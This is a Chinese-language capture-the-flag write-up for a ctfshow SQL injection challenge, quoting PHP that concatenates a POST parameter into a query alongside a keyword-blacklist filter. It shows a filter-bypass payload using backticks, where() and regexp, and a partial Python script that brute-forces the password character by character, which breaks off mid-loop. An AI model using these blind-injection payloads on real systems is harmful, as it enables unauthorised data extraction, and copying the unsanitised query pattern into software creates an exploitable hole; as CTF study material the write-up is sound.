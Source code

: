 > 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(pass) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```

需要我们post传入参数 `tableName`

当传入`tableName=ctfshow_user` 时，有变化

```
$user_count = 22;
```

说明有 22 行数据。

这里吧等于号过滤了，所以利用正则。

不能有空格，不能有 * 

```
tableName=`ctfshow_user`where(substr(`pass`,1,1)regexp('f'))
```

成功利用 where 条件匹配到 f

写个脚本

```python
# @Author: yanmie

import requests

url = "http://cd6b047c-93a9-41e2-b3e2-ab58d7328aea.chall.ctf.show/select-waf.php"
payload = "`ctfshow_user`where(substr(`pass`,{},1)regexp('{}'))"
str = "flag{abcdefghijklmnopqrstuvwxyz0123456789-}"
i = 0
flag = ""
while True:
    i += 1
    for j in str:
        data = {
            "tableName":payload.format(i,j)
        }
        response = requests.post(url=url,data=data)

        if "user_count = 1;" in response.text:
```